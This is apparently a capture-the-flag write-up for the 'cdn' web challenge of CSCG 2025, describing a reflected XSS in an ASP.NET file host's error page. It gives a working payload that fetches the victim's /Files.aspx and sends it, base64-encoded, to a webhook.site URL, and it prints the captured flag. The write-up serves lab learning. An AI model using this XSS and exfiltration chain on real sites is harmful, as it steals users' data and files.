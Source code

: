 ```yaml
---
title: cdn - CSCG 2025 - Write-Up
date: 2025-04-24 10:06:00 +0200
categories: [Cyber Security Challenge Germany]
tags: [web,js,xss,cyberpunk]
description: Another XSS vulnerability to exploit.
image:
  path: /assets/blog/cdn/cdn.png
  alt: CSCG image
---
```


This is the a write-up for the last web challenge (the one with the fewest solves) `cdn` of the CSCG 2025. The challenge was created by `NoRelect` and is rated as medium.

## Description

Description of the challenge:
> Diary Entry: February 10, 2080
> 
> Another day in the wasteland of enterprise software. The neon skyline flickers outside my window, but inside this concrete bunker of a cubicle, it's just me, an aging keyboard, and a .NET Framework project that refuses to die. I don't know how we got here. The world outside runs on quantum distributed neural meshes, but here I am, hammering away at legacy C# code in an IDE that barely runs on this salvaged hardware. Mono is the only thing keeping this fossil alive, and even that is held together with digital duct tape and the tears of developers long past. The system is ancient, predating even my grandparents. But the Corp won't let us move it. "Too much risk" they say. "Legacy compatibility" they insist. They don't see the warnings flashing in the logs like distress beacons in deep space. Reflection errors. Memory leaks. A garbage collector that might as well be a janitor sweeping an endless hallway of digital debris.

For this application you are provided with a massive amount of ASP.Net code, the code really shocked me, but actually I solved the challenge completely without looking at the code. The application is a simple file host application, it allows you to register an account. The application provides you with a simple UI to upload files and download them, although the files are not accessible via a URL in a CDN system.

## Vulnerability

The vulnerability is connected with how the application responds to errors. If the application detects any values which may be malicious it will respond with a page which will view these parameters, the issue is that these parameters are rendered that way, so they are displayed on the page. You can test that by injecting a simple XSS payload beginning like `?x=<img` asa parameter to your request query. The wep page will treat this image tag as the image and you have **Cross Site Scripting (XSS)**.

![](/assets/blog/cdn/error.png)

### Rabbit hole, another XSS

There is actually a second vulnerability in this application. This vulnerability can not be used to exploit the bot but it still exists. The vulnerability is that you can upload a file with a XSS payload as the file name. The file name will display the file for you which results in the execution of the XSS payload.

## Exploit 

The first issue while building a exploit payload is, that you may encounter is that the payload so the value of a parameter will be cut of.

For example if you inject `/?x=<img src=1 onerror=alert(1) />` as the payload to the page, you will be presented with the HTML:

```
<img src=1 oner...").
```

This can be solved by using the parameter name instead of the value as the payload. With using `/%3Cimg%20src%3D1%20onerror%3Dalert%281%29%20%2F%3E%20=<img` as the payload the page successfully responds with an alert.

**Note:** To make the malicious warning appear, there must be a dangerous tag inside the value of the payload/parameter, otherwise the page will return the usual page.

![](/assets/blog/cdn/alert.png)

The last step is to build a working final payload, for that you can use again like in the [Air-Smeller](/posts/Air-Smeller/) challenge [webhooks.site](https://webhook.site/), which provides you with a short URL.

The flag is uploaded to the page using the pages file upload function (this is a extract from the bots code):

```js
 await page.goto(cdnUrl + '/Files.aspx', {
        waitUntil: 'networkidle0',
    });
    const elementHandle = await page.$("#ctl00_MainContent_FileUpload1");
    await elementHandle.uploadFile('/tmp/flag.txt');
```

The files are rendered on the `/Files.aspx` page using this code:
```html
<li>
    <asp:HyperLink
        CssClass="cyberpunk blue"
        NavigateUrl='<%# Eval("Data") %>' 
        Text='<%# Eval("FileName") %>' 
        runat="server"/>
</li>
```

In the provided code, it's notable that files are encoded using Base64 and stored as strings. The format includes a specific data prefix. This format is designed to be utilized within the `NavigateUrl`.

```cs
var data = new FileData
{
    FileName = this.FileUpload1.FileName ?? "default-filename.bin",
    Data = "data:application/octet-stream;base64," + Convert.ToBase64String(this.FileUpload1.FileBytes)
};
```

So summarized: The files are the URL itself. This makes exploiting the XSS vulnerability effectively easier, because you only need to send the `/Files.aspx` page of the bot to our webhook. If the file would be stored at a separate URL you would need to first read the page and then request the URL.

I used a similar payload like in the Air Smeller Room, this is because it's just handy.

1. I build a short fetch JS script which would fetch the `/Files.aspx` page.
```js
fetch("/Files.aspx").then(r=>r.text()).then(j=>fetch("https://webhook.site/fe0c905f-7ac4-46cf-a78c-2ad0b44ae662?x="+btoa(j)));
```
2. Base64 encoded it and pasted it into the URL:
```
/Files.aspx?%3Cscript%3Eeval(atob(%22ZmV0Y2goIi9GaWxlcy5hc3B4IikudGhlbihyPT5yLnRleHQoKSkudGhlbihqPT5mZXRjaCgiaHR0cHM6Ly93ZWJob29rLnNpdGUvZmUwYzkwNWYtN2FjNC00NmNmLWE3OGMtMmFkMGI0NGFlNjYyP3g9IitidG9hKGopKSk7Cg%3D%3D%22))%3C/script%3E=%3Cimg
```

This payload worked for me in the local browser, so I submitted it to the reports page.

Eventually you will receive the full page as a payload on your web hook.

**Flag:**

```
dach2025{juni0r_d3v_c00k3d_up_s0me_0ld_t3chn0logi3s!127389}
```